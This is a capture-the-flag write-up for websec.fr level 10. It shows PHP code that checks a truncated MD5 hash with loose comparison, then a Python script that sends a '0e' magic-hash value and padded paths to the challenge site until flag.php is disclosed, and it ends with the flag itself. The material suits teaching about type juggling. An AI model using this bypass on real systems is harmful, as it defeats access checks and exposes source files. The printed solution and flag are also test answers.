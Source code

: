 ```
<?php
if (isset ($_REQUEST['f']) && isset ($_REQUEST['hash'])) {
    $file = $_REQUEST['f'];
    $request = $_REQUEST['hash'];

    $hash = substr (md5 ($flag . $file . $flag), 0, 8);

    echo '<div class="row"><br><pre>';
    if ($request == $hash) {
    show_source ($file);
    } else {
    echo 'Permission denied!';
    }
    echo '</pre></div>';
}
?>
```
+ So, we need to bypass the check `if($request==hash)`. 
+ Another thing to notice it is using loose comparison, so now it is easy to bypass
We can use the following script to get the flag:
```
import requests

prefix = "./"
while True:
    r = requests.post("http://websec.fr/level10/index.php", data={
        'hash': "0e12345",
        'f': prefix + 'flag.php'
    })

    if "WEBSEC{" in r.text:
        print(r.text)
        break

    prefix += "/"
```
Flag:WEBSEC{Lose_typ1ng_system_are_super_great_aren't_them?}
